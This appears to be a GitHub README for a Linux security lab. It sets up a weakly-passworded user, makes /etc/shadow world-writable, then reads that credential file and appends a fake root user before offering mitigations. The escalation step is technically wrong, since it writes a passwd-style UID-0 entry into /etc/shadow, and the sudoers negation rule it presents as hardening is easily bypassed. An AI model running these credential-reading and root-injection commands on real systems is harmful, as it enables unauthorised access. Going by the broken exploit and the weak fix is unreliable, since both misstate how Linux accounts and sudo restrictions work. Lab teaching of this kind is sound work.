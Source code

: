 # 🔒 Linux Security: User & File Permission Hardening

This repository explores **user privilege misconfigurations** and **file permission weaknesses** in Linux, focusing on **exploitation techniques** and **preventative security measures**. 🚀

---

## 🎯 Project Scope
This guide will help you:
- 👤 **Understand user privilege risks**
- 🚨 **Exploit misconfigured file permissions**
- 🛡 **Harden user and file access controls**

---

## 🛠️ Step 1: Setting Up Vulnerable User & Permissions

### 📌 **1️⃣ Create a User with Weak Security Settings**
```bash
# Create a low-privileged user
┌──(kali㉿kali)-[~]
└─$ sudo useradd attacker

# Assign a weak password
┌──(kali㉿kali)-[~]
└─$ echo "attacker:12345" | sudo chpasswd

# Verify user creation
┌──(kali㉿kali)-[~]
└─$ cat /etc/passwd | grep attacker
```

### ⚠️ **2️⃣ Misconfigure File Permissions (High Risk!)**
```bash
# Set world-writable permissions on sensitive files
┌──(kali㉿kali)-[~]
└─$ sudo chmod 777 /etc/shadow

# Verify insecure permissions
┌──(kali㉿kali)-[~]
└─$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 1722 Mar 17 19:11 /etc/shadow
```

---

## 🚀 Step 2: Exploiting Weak Permissions

### 🔎 **3️⃣ Switch to the Low-Privileged User**
```bash
# Switch to attacker account
┌──(kali㉿kali)-[~]
└─$ su - attacker
Password: 12345
```

### 🛠 **4️⃣ Read & Modify Sensitive Files**
```bash
# View the contents of /etc/shadow (normally restricted)
attacker@kali:~$ cat /etc/shadow

# Inject a new root-level user into the system
attacker@kali:~$ echo "root_hacker::0:0::/:/bin/bash" | tee -a /etc/shadow

# Switch to root (no password required)
attacker@kali:~$ su root_hacker
```

---

## 🔐 Step 3: Mitigating Permission Vulnerabilities

### 🛡 **5️⃣ Restore Secure File Permissions**
```bash
# Restrict access to /etc/shadow
┌──(kali㉿kali)-[~]
└─$ sudo chmod 640 /etc/shadow
┌──(kali㉿kali)-[~]
└─$ sudo chown root:shadow /etc/shadow

# Verify secure file permissions
┌──(kali㉿kali)-[~]
└─$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1722 Mar 17 19:11 /etc/shadow
```

### 🔒 **6️⃣ Secure User Privileges in sudoers File**
```bash
# Edit sudoers configuration
┌──(kali㉿kali)-[~]
└─$ sudo visudo
```
Add the following line to restrict **attacker** from running privileged commands:
```plaintext
attacker ALL=(ALL) !/bin/su, !/bin/bash
```

---

## 📌 Task 1 - Summary Table

| **Step**  | **Action** | **Command/Details** |
|-----------|--------------------------------|-----------------------------|
| 🛠 **Setup** | Create user **attacker** | `sudo useradd attacker` |
| | Assign a weak password | `echo "attacker:12345" | sudo chpasswd` |
| | Verify user creation | `cat /etc/passwd | grep attacker` |
| | Set weak file permissions | `sudo chmod 777 /etc/shadow` |
| | Confirm misconfiguration | `ls -l /etc/shadow` |
| 🚀 **Exploitation** | Switch to attacker | `su - attacker` |
| | Access sensitive files | `cat /etc/shadow` |
| | Modify shadow file | `echo "root_hacker::0:0::/:/bin/bash" | tee -a /etc/shadow` |
| | Gain root privileges | `su root_hacker` |
| 🔐 **Mitigation** | Restore secure permissions | `sudo chmod 640 /etc/shadow`<br>`sudo chown root:shadow /etc/shadow` |
| | Restrict attacker in sudoers | `sudo visudo` + `attacker ALL=(ALL) !/bin/su, !/bin/bash` |

---

### 🛡 **Final Thoughts**
✅ **Always enforce strict file permissions and monitor user privileges to prevent unauthorized access!**

🚀 Stay Secure! 🔒
